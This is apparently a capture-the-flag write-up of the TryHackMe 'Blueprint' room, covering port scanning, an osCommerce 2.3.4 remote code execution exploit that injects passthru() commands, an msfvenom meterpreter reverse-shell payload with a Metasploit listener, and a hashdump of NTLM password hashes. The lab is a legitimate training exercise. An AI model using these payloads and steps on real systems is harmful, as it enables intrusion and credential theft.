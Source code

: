 # BluePrint (THM)

- https://tryhackme.com/room/blueprint
- March 19, 2023
- easy

---

## Enumeration

### Nmap

```
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 7.5
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack MariaDB (unauthorized)
8080/tcp  open  http         syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack Microsoft Windows RPC
```

- There are 10 ports open with nmap custom ports and it is a Windows machine 

### HTTP

- nothing found
- try with common directories and files and nothing found

### HTTPS

- it redirects to /oscommerce-2.3.4

![](screenshots/2023-03-19-02-24-16.png)

### HTTP/8080

- same as above with port 443
- there is RCE exploit for oscommerce-2.3.4

![](screenshots/2023-03-19-02-25-27.png)

- download from searchsploit

![](screenshots/2023-03-19-02-26-58.png)

- read the exploit code

```python
# eg: python3 osCommerce2_3_4RCE.py http://localhost/oscommerce-2.3.4/catalog
testVulnUrl = baseUrl + '/install/install.php'
targetUrl = baseUrl + '/install/install.php?step=4'
```
- this route exists

![](screenshots/2023-03-19-02-28-46.png)

```python
payload = "');"
payload += "passthru('" + command + "');"    # injecting system command here
payload += "/*"
```
- can add system command here
- in this exploit, author use `cmd = 'whoami'` command
- change it later

![](screenshots/2023-03-19-02-34-06.png)

- Oh! Get `nt authority\system` access directly
- need to get shell access

![](screenshots/2023-03-19-02-54-56.png)

- create payload with msfvenom

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.8.57 LPORT=4242 -f exe > shell.exe
```

- create a python server in the same directory with `shell.exe` file and get shell.exe 

![](screenshots/2023-03-19-03-02-35.png)

- check shell.exe file exists

![](screenshots/2023-03-19-03-03-13.png)

- listen with multi_handler from msfconsole

```sh
msf6 > use multi/handler
msf6 exploit(multi/handler) > set LHOST 10.11.8.57
msf6 exploit(multi/handler) > set LPORT 4242
msf6 exploit(multi/handler) > set payload /windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```
- run `shell.exe` 

![](screenshots/2023-03-19-03-04-26.png)

```sh
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
```
- I use `crackstation.net` to crack NTLM hash for Lab user `30e87bf999828446a1c1209ddde4c450`

```sh
meterpreter > cat C:\Users\Administrator\Desktop\root.txt.txt
```

---